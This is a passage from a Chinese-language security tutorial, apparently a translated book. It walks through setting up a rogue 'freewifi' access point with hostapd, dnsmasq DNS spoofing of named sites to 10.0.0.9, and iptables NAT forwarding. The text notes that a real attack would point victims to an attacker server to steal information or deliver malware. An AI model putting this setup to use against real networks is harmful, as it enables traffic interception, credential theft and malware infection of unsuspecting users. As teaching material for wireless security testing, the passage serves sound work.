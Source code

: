 如果我们希望拦截请求，我们需要创建一个称为`fakehosts.conf`的附加文件，该文件允许我们通知`dnsmasq`我们要拦截的查询：

1.  我们首先创建一个名为`fakehosts.conf`的文件，通知`dnsmasq`应用程序哪些请求将被拦截。
2.  要做到这一点，您需要打开一个文本编辑器，比如 gedit 或任何创建简单文本文件的东西，就像我们以前做的那样。在此文件中，您将输入以下信息：

```
      10.0.0.9 usatoday.com 
      10.0.0.9 zelda.com 

     Save this file as fakehosts.conf 
```

3.  这将导致`dnsmasq`DNS 服务器以`10.0.0.9`响应任何对这些地址的请求。在实际的攻击场景中，我们会输入我们控制的服务器的 IP 地址，这样当受害者访问它时，他们会提供信息，或者感染恶意软件，或者其他我们想要的东西。
4.  然后我们需要启动`dnsmasq`，如下所示：

```
    dnsmasq -C dnsmasq.conf -H fakehosts.conf

```

5.  这告诉`dnsmasq`使用`dnsmasq.conf`（`-C`进行自身配置，并参考`fakehosts.conf`了解被欺骗主机的信息。

6.  通过配置并成功启动`dnsmasq`（意味着没有返回错误），我们现在可以启动接入点本身。这意味着我们将启动一项服务，允许我们的无线适配器向任何愿意连接它的人宣传自己作为接入点。为此，我们需要运行一个名为`hostapd`的程序。
7.  为了运行`hostapd`，我们首先需要安装它；这是通过运行以下命令完成的：

```
         apt-get install hostapd
```

8.  接下来，就像`dnsmasq`一样，我们需要创建一个`conf`文件，告诉`hostapd.conf`如何工作；我们通过执行以下步骤来实现这一点：
    1.  打开一个文本编辑器。
    2.  在文件中输入以下内容：

```
          interface=wlan0 
          driver=nl80211 
          ssid=freewifi 
          channel=1 

```

9.  接下来，我们需要打开接入点；我们通过执行以下命令来实现这一点：

```
        hostapd ./hostapd.conf 

```

10.  这将打开接入点。您可能会看到关于更新失败的错误消息，但这是正常的，通常不会产生不良影响。
11.  接下来，我们需要通过将流量从`wlan0`定向到`eth0`来执行一些路由，本质上创建一个非常简单的 NAT 设置。为此，请发出以下命令：

```
 sysctl -w net.ipv4.ip_forward=1 
     iptables -P FORWARD ACCEPT 
     iptables --table nat -A POSTROUTING -o
       wlan0 -j MASQUERADE 
```
